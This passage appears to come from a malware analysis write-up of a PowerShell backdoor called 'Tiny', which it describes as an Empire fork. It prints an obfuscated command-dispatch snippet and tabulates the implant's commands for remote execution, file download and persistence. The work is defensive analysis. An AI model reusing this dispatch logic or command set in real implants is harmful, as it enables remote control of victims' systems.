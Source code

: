 <h6>Using the last sentence, we can compare the code used with a correct and code optimized, we can use an equivalent of a referential like "this" ($ _) for using the variable and parse it, this allows to confirm the low level in the skill coding, that explain why code shares and that the backdoor is a fork of the Empire framework.</h6>

``` csharp
if(${decrypTEd}.("contains").Invoke("exec:")) {&("Execute-StandartCommand") ${DECRyPted} ${InTERnaLUSerID} ${InTERNALuserkEY}} 
elseif(${DecRYpteD}.("contains").Invoke("download:")) {&("Download-File") ${deCryPTED} ${iNteRNALUsERId} ${iNTerNaLUserkeY}}
elseif(${DeCrypTEd} -eq ("update_tiny")) {&("Update-Tiny") ${INTeRnAlUSerID} ${iNTeRNAlUserKey}}

switch (${decrypTEd})) 
    {
        {$_.contains("exec:")} {&("Execute-StandartCommand") ${DECRyPted} ${InTERnaLUSerID} ${InTERNALuserkEY}}
        {$_.contains("download:")} {&("Download-File") ${deCryPTED} ${iNteRNALUsERId} ${iNTerNaLUserkeY}}
        {$_ -eq ("update_tiny")} {&("Update-Tiny") ${INTeRnAlUSerID} ${iNTeRNAlUserKey}}
    }
```

<h6>We can resume all the commands and functionalities planned on the backdoor (eq and contains strings to match) :</h6>

<table>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
<tr>
<td>delete</td>
<td>Remove persistence and kill the session of Tiny backdoor.</td>
</tr>
<tr>
<td>exec:</td>
<td>Execute command on the system of the victim.</td>
</tr>
<tr>
<td>download:</td>
<td>Download a file on the system of the victim.</td>
</tr>
<tr>
<td>set_wait_time:</td>
<td>Push on a sleep mod for X seconds.</td>
</tr>
<tr>
<td>update_tiny</td>
<td>Update the implant by a new persistence (update done by reboot of session or computer)</td>
</tr>
<tr>
<td>run_module:</td>
<td>Run an additionnal module.</td>
</tr>
<tr>
<td>add_persist_module:</td>
<td>Add persistence for the additionnal module on the system</td>
</tr>
<tr>
<td>remove_persist_module:</td>
<td>Remove the persistence for the additionnal module on the system</td>
</tr>
</table>
